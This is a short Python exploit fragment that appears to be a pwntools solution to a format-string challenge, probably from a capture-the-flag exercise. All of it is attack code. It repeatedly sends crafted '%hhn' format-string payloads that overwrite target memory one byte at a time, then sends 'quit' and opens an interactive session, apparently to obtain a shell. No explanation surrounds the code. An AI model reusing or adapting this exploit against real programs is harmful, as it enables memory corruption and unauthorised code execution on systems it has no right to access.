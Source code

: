 ```python
payload="%c%c%c%c%{}c%hhn%{}c%10$hhn".format(off,lv_up(s4-off-4))
p.sendline(payload)
p.recv()
off+=5;
payload="%c%c%c%c%{}c%hhn%{}c%10$hhn".format(off,lv_up(b1-off-4))
p.sendline(payload)
p.recv()
off+=1;
payload="%c%c%c%c%{}c%hhn%{}c%10$hhn".format(off,lv_up(b2-off-4))
p.sendline(payload)
p.recv()
off+=1;
payload="%c%c%c%c%{}c%hhn%{}c%10$hhn".format(off,lv_up(b3-off-4))
p.sendline(payload)
p.recv();
off+=1;
payload="%c%c%c%c%{}c%hhn%{}c%10$hhn".format(off,lv_up(b4-off-4))
p.sendline(payload)
p.recv()
p.sendline("quit");
p.interactive();
```


















































